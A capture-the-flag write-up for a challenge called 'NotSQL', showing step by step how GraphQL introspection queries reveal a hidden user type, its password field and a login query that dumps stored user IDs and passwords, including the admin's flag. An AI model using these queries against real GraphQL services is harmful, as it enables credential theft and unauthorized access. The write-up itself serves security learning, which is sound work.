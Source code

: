 ```yaml
---
layout: default
title: NotSQL
---
```




In this challenge we exploit vulnerabilities in `GraphQL`


First we get all of the types: 
```json
{__schema{types{name}}}
```
```json
{
  "data": {
    "__schema": {
      "types": [
        {"name": "Board"},
        {"name": "Int"},
        {"name": "String"},
        {"name": "User_d51e7f78cbb219316e0b7cfe1a64540a"}, // INTERESTING
        {"name": "Query"},
        {"name": "CacheControlScope"},
        {"name": "Upload"},
        {"name": "Boolean"},
        {"name": "__Schema"},
        {"name": "__Type"},
        {"name": "__TypeKind"},
        {"name": "__Field"},
        {"name": "__InputValue"},
        {"name": "__EnumValue"},
        {"name": "__Directive"},
        {"name": "__DirectiveLocation"}
      ]
    }
  }
}
```

next, we want to find the fields of this type:
```json
{__type(name:"User_d51e7f78cbb219316e0b7cfe1a64540a"){fields{name}}}
```

```json
{
  "data": {
    "__type": {
      "fields": [
        {"name": "userid_a7fce99fa52d173843130a9620a787ce"},
        {"name": "passwd_e31db968948082b92e60411dd15a25cd"}
      ]
    }
  }
}
```

Now, we will check what are the available queries.
```json
{__type(name:"Query"){fields{name}}}
```
```json
{
  "data": {
    "__type": {
      "fields": [
        {"name": "view"},
        {"name": "login_51b48f6f7e6947fba0a88a7147d54152"}
      ]
    }
  }
}
```

OK, so there is a query that's called: `login_51b48f6f7e6947fba0a88a7147d54152`, and we know the name of the fields. let's try to give them to the query:
```json
{login_51b48f6f7e6947fba0a88a7147d54152{userid_a7fce99fa52d173843130a9620a787ce,passwd_e31db968948082b92e60411dd15a25cd}}
```

```json
{
  "data": {
    "login_51b48f6f7e6947fba0a88a7147d54152": [
      {
        "userid_a7fce99fa52d173843130a9620a787ce": "test-user",
        "passwd_e31db968948082b92e60411dd15a25cd": "test-password"
      },
      {
        "userid_a7fce99fa52d173843130a9620a787ce": "admin",
        "passwd_e31db968948082b92e60411dd15a25cd": "FLAG{i_know_how_to_use_graphql}" // <---
      }
    ]
  }
}
```

![FLAG](./images/NotSQL.png)

**Flag:** ***`FLAG{i_know_how_to_use_graphql}`*** 

